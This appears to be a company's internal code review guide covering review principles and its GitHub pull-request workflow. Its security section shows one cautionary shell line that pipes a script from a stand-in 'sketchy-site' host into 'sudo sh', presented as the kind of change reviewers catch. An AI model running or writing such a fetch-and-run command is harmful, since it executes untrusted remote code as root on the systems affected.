

# Code Reviews

Code reviews come from a very important team wide value of having every single line of code subjected to the process of a code review.

Also known as peer code reviews are an essential part in the process of:

## 1. Maintaining high quality of code of each codebase

Quality of code is subjected to many opinions and points of view. In this guide we'll not be explicitly listing down a full and exhaustive list of properties of high quality code but here are a few **very obvious** examples.

### 1.1. Redundant Code or Comments

```python
def some_function():
  # add to enable debugging -----------
  #logger.setLevel(logging.DEBUG)
  #logger.setHandler(logging.FileHandler('my.log'))
  # -----------------------------------
  ...
```
You get the picture. Commented out code is an arguably a bad practice since you never know, if the code around it is compatible with the commented out snippet.

Often you'll also see:

```python
# TODO: something I'll never touch again but I'm still
# putting a TODO here - just in case :)

```

An additional example:
```python
# ---------------------------------------------
# not used, but I'll keep it here just in case
# def my_function(arg1, arg2):
#   "this is my function"
#   return arg1 + arg2
# ---------------------------------------------
```
We invented version control systems like git and mercurial so that we don't have to worry about losing code. If you care so much about losing your function in the above example, we'd suggest deleting it, make a commit and tagging that commit for easier retrieval. Just don't leave it hanging around.

### 1.2. Complexity

Look for and evaluate the necessity of the introduced complexity in the proposed changeset. We also have standardized metrics that can approximate code complexity i.e. cyclomatic complexity being one of such metrics.

Wikipedia's definition of [cyclomatic complexity](https://en.wikipedia.org/wiki/Cyclomatic_complexity) is *"Cyclomatic complexity is a software metric (measurement), used to indicate the complexity of a program. It is a quantitative measure of the number of linearly independent paths through a program's source code."*

Although we measure this via Codeclimate it's still very important that a reviewer pays attention to this metric when reviewing code and proposes ways to reduce the complexity thus improving the readability of code.


### 1.3. Module Length

This applies to all aspects of structuring code into logical modules.

By module we mean: functions, modules in python or go-lang, classes, something that holds lines of code together and logically separates them. If such a module is getting too large, start thinking on how to split one function into multiple functions, breaking one huge source code file into a separate package etc.

### 1.4. Code Coverage

Make sure the newly committed code is properly tested. Writing tests alongside writing code will usually produce better results in terms of overall quality, modularity and cyclomatic complexity mentioned above. So as long as you apply this principle to your work this shouldn't be a problem.  

### 1.5. Breaking the Build

As you'll learn in the chapter we use github's pull requests to review code of our peers before it get's merged into master. Alongside pull requests we also continuously test & build our code on Circle CI and the information about a build on our CI environment is also fed back to pull requests on github.



When reviewing code you should never give somebody a green light, if their build is not successful since they'll not be able to deploy this code. Code that isn't deployable is of no value to anyone.

## 2. Applying the Right Technology to the Problem at Hand

Sometimes a proposed changeset comes out as a beautiful piece of code that's tested, applies really good and smart coding practices and at first glance improves the overall quality of a particular module, but if it doesn't solve the problem, it's of little to no value.

To avoid such instances both the reviewer and the code review submitter have to play their part by:

* **When submitting** a code review, make sure you provide enough context about the problem to the reviewer.
* **When reivewing** make sure you understand the context of the proposed changes and invest extra time into validating that the code actually solves the problem at hand correctly.

*Pro tip:* An even more extreme case would be that we wouldn't be solving the right problem in the first place, but that's an issue that lies higher up in the entire engineering process, but pay attention to such cases also.


## 3. Preventing Potential Security Issues / Vulnerabilities / Introduction of Harmful Code

Here is a classic:

```bash
#!/bin/sh

# install dependencies on production on a machine
# without proper backup and no means to set it up
# back automatically

curl "http://sketchy-site.com/im-completely-legit.sh" | sudo sh
```

By no means we'll be covering all possible vectors that would weaken the security of our systems, just use all of your knowledge about possible attack vectors of the code your writing or reviewing and try to prevent the introduction of potentially harmful code.

When submitting a code review that introduces or changes security critical code try to think, who on your team has the most knowledge about a particular module or technology and would be able to detect harmful changes. Make sure they also review your code.

## 4. Adhering to Good and Established Code Practices and Patterns

There are plenty of resources out there in the form of guides, books and documentation on what is a good practice and what not. So when reviewing or submitting code try to think if the proposed change-set respects:

* language or framework idioms
* existing pattern idioms and patterns of the codebase (if they still make sense after your change)
* language based formats as [PEP8](https://www.python.org/dev/peps/pep-0008/) or [go fmt](https://blog.golang.org/go-fmt-your-code)
* expressiveness of code in general
* ...

As a general principle: **keep in mind that most probably the code you're writing will be written once and then read many times by multiple people.**

Pro tip: to get you started here is a short intro to what idiomatic [Python](http://python.net/~goodger/projects/pycon/2007/idiomatic/handout.html), [Go-lang](https://golang.org/doc/effective_go.html) and [JavaScript](http://javascript.crockford.com/code.html) is.


## 5. Preventing Over-Engineering or Premature Optimizations

Some say that premature optimizations are the root of all evil and misery in software engineering. We say it's a waste of your's and companies precious time. When reviewing code, pay special attention to newly written wrappers, libraries and abstractions since they might be introduced prematurely to the codebase.

Also consider premature introduction of 3rd party libraries and evaluate the value that they bring to the codebase as a whole. Ask yourself, if the newly introduced library can perhaps be replaced with minimal amount of custom code?  

## 6. Technical Debt

Arguably everything we covered before this point will reduce technical debt in your code in some aspect, but still pay special attention to the aspect of debt + interest in terms of effort we'll have to pay as a team, if the code gets introduced to the codebase.

# Code Review Process at Zemanta

So let's follow an example changeset from it's first commit all the way to a merge back to master.

## 1. Branch off

You've changed a file(s) in one of Zemanta's git repositories on github and you want to commit your code. Before you do so, make sure you've created a separate branch. There's no need to create a private fork of our repository since it's more complicated to keep the private fork's master up to date with the origin. Once you've committed your code to this branch and pushed your newly created branch back to origin it's time to to create a **pull request (PR)** on github.

Note: Please use the underscore naming convention for naming your branches i.e. `prefix_branch_name`. Use prefix `fea` for a new feature, `fix` for a bugfix, etc.

## 2. Pull Request

Creating a pull request on github is trivial and there are plenty of [resources](https://help.github.com/articles/using-pull-requests/) that will explain the intricacies of creating one. It's just important to remember that after you create one, you have to be sure it contains just the changes (i.e. entire diff) you've wanted to present to the reviewer.

Feel free to create a code review as early or as late after you push your branch, since a PR will be updated with new commits to that branch.

To make a PR worthy of the time of a reviewer, you have to make sure the following prerequisites are followed:

### 2.1. Context

Every non-trivial pull request should contain context about the change it is introducing, so a person looking at a PR can have a better idea about the reasoning behind your code. The reviewer needs context so they'll be able to provide you with feedback, if your code even solves the problem at hand and point you to the right direction. In addition, when someone is reading your code in the future, the context in the PR will help them understand your implementation decisions.

At minimum, **you must include a link to a Trello ticket**, but you can add as much context as you think it's required to understand the problem you're solving. The best way to do this is to put yourself in the role of the reviewer for a while and go over your PR yourself.

If your pull request is large, e.g. it introduces a large change, many small changes or a change that affects many files, it is advisable to include a list of highlights that tell the reviewer which files/changes they should pay particular attention to. An example of such highlights:
- changes the way X is handled (`X.py`)
- A is now doing B instead of C (`A.py`)
- added a new test in `A_test.py`

### 2.2. Roadmap

If your PR is intentionally missing something, because you plan to add this in a separate PR, than explicitly declare what's missing in order not to confuse the reviewer.

### 2.3. Changeset Size

When submitting a PR, consider breaking down your changeset into multiple consecutive PR that are easier for a reviewer to grasp and wrap their head around. A suggested median size is around 500 lines of diff, anything beyond a 1000 is obviously too much for somebody to really digg into and produce a good review.

### 2.4. Successful Build

As already mentioned, we have github's PRs set up in a way that we display build status right next to your PR. The build status comes from Circle CI. So make sure your build is successful and all tests pass since a reviewer will notice it first and instruct you to fix that before continuing with the actual review.

### 2.5. Auto Code Review on Codeclimate

We're also using a remote service called codeclimate (and who's feedback is also reflected on a PR) that analyzes your code and checks for code complexity, quality, etc.

Let's look at an example codeclimate config file that's committed to the repository and see what checks does it perform on our code.

```yaml
engines:
  pep8:
    enabled: true
  radon:
    enabled: true
    config:
      threshold: "C"
  eslint:
    enabled: true

ratings:
   paths:
   - "**.py"
   - "**.js"

exclude_paths:
- client/lib/**/*
- server/**/migrations/*.py
```

For this example we're using 3 quality checking modules:

* `pep8` will check python code and fail, if it's not formatted acoring to pep8 standards
* `radon` will compute and report on various complexity metics, including the aforementioned cyclomatic complexity
* `eslint` is a modern JavaScript linter that will be run on your .js files

All these modules will produce a report and declare, if your code is compliant with minimal review standards, thus relieving the reviewer of having to seek out those small inconsistencies. This will also make you faster since you'll be able to reduce the amount of hops between you and the reviewer.

Note: some repositories might not yet have it's code analyzed on codeclimate continuously just yet. Feel free to help us set that up!

## 3. Reviewer Selection

Ok, you have everything ready, now you have to think who is the person to submit this PR to? Ask your tech lead for help and also look at [`git blame`](https://help.github.com/articles/using-git-blame-to-trace-changes-in-a-file/) on github to seek out folks who have altered the code you've modified in the past.

Note: if you're making architectural changes (e.g. adding a new output/input of a system or changing how systems communicate), you should add at least one member from the infrastructure team to the PR.

To assign reviewers on a PR, simply assign one or more assignees to the PR. (Gihub supports multiple assignees as of [june 2016](https://github.com/blog/2178-multiple-assignees-on-issues-and-pull-requests)) Keep the number of assignees as low as possible - preferably 1 to 2 assignees.  


## 4. Tracking Incoming PRs

To stay on top of pull requests that are waiting on your feedback (i.e. you need to review them) use: [`github.com/pulls`](https://github.com/pulls).

There you can track pull requests across all reposities of Zemanta github org that are assigned to you via github filters i.e. `is:open is:pr assignee:tomazk user:Zemanta `

You can assume the following: **If you're assigned to a PR, that PR is ready to be reviewd and somebody is waiting on your feedback.** Even if the PR is already closed.

Note: historically we used waffle.io to track PRs assigned to you, but with improvements github introduced (multiple assignees, github.com/pulls) that service became obsolete.

## 5. Code Review Feedback

Your reviewers will provide feedback in 2 formats:

1. **In-line comments** - it's best to put comments directly next to your diff and you should reply and or push additional commits to address the issues raised on every in-line comment

2. **Closing remarks** - in the closing remarks, the reviewer will provide you with a general estimate of your proposed change. A reviewer might give you a conditional approval (and lay out those conditions) or a full approval of your changeset using a common phrase "Ship it!".

## 6. Squash Commits and Merge

Once you're are able to resolve / address all issues and come to a consensus then it's time to merge your changes to master branch. We recommend you to first pull from master and make sure the build is successful and all conflict are resolved (also consider notifying reviewers of any large conflicts that might have occurred and point them to the appropriate commits).

After that make sure that you squash your commits and rebase them to master. Rebasing commits and squashing them can be very confusing via CLI, but luckily for us Github made this process very trivial via the ["Confirm squash and merge"](https://github.com/blog/2141-squash-your-commits) button on every pull request.  


Why not simply merging by creating a merge commit? Because we want to have a usable history with clear references to pull requests.

**TL;DR**

1. Click on "Confirm squash and merge".
2. Make sure the Pull Request is referenced in the squashed commit (i.e. `#125`).
3. Delete the merged branch on github. (It's trivially restorable)
